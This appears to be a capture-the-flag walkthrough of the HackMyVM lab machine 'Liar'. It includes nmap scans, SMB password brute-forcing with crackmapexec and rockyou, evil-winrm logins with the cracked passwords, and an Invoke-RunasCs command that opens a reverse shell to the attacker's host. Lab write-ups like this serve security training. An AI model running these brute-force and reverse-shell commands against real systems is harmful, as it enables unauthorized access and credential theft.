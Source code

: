 
![liar](https://github.com/user-attachments/assets/239fa3ab-3325-4dc4-987d-d3a5944965c7)


---



`Creator`:  [sml](https://hackmyvm.eu/profile/?user=sml)

`Page`: [HackMyVm](https://hackmyvm.eu)


---

- I start with a scan of the open ports,
  
  ```bash
  nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.103
  ```
  
  ![image](https://github.com/user-attachments/assets/2dba8e0f-c4ec-4186-86a1-ab41e69d984e)
  

- Scanning open ports.
  
  ```bash
  nmap -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV 192.168.56.103 -oN ports
  ```

  ![image 1](https://github.com/user-attachments/assets/0a3ae56b-0911-4f03-8059-bdd2076cd5cd)


- I access to the website.
    
    ![image 2](https://github.com/user-attachments/assets/3ed8b160-8ef0-4c87-b6c6-123b6813e497)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u nica -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 3](https://github.com/user-attachments/assets/f27b0754-5734-4c05-ac9a-7fb937a88eea)

    

- I log in as a `nica` with evil-winrm
    
    ```bash
    evil-winrm -i 192.168.56.103 -u nica -p hardcore
    ```
    
    ![image 4](https://github.com/user-attachments/assets/ef4a06dd-877c-4ba3-821c-f4dbfeb5ba56)

    

- I find the first flag and find another potential user.
    
    ![image 5](https://github.com/user-attachments/assets/6b52f2cf-0c2d-4cb6-89c8-eeaad90cffe7)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u akanksha -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 6](https://github.com/user-attachments/assets/a140aa05-3eef-4ad9-baf3-2a2101748994)

    

- I try to connect as `akanksha` with evil-winrm but it does not allow me to connect.
    
    ```bash
    evil-winrm -i 192.168.56.103 -u akanksha -p sweetgirl
    ```
    
    ![image 7](https://github.com/user-attachments/assets/e06d87f1-e379-4db1-83f1-942fb8e265a1)

    

- As it does not allow us to log in as `akanksha`, we can try to run commands as that user and create a revershell. For that we can use Runas.
    [RunasCs](https://github.com/antonioCoco/RunasCs)
    
    ![image 8](https://github.com/user-attachments/assets/2e1c807d-9fb0-49cc-b93a-03c192a5f7b9)

    

- We import the module and run the revershell as `akanksha` to my machine.
    
    ```bash
    Import-module ./Invoke-RunasCs.ps1
    Invoke-RunasCs akanksha sweetgirl powershell -Remote 192.168.56.1:4444
    ```
    
    ![image 9](https://github.com/user-attachments/assets/5ed766dd-5e31-43fd-8b18-dafbbc356f77)

    

- This user has permissions to view the root flag.
    
    ![image 10](https://github.com/user-attachments/assets/3c13a465-57ae-4d28-8afc-31573f3f102a)
